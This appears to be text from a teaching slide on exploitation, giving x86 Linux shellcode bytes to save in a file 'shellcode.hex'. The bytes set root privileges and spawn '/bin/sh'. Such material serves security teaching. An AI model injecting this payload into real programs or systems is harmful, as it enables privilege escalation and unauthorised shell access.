

# Our shellcode
setup file "shellcode.hex" to contain:
\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68
\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89
\xe1\xcd\x80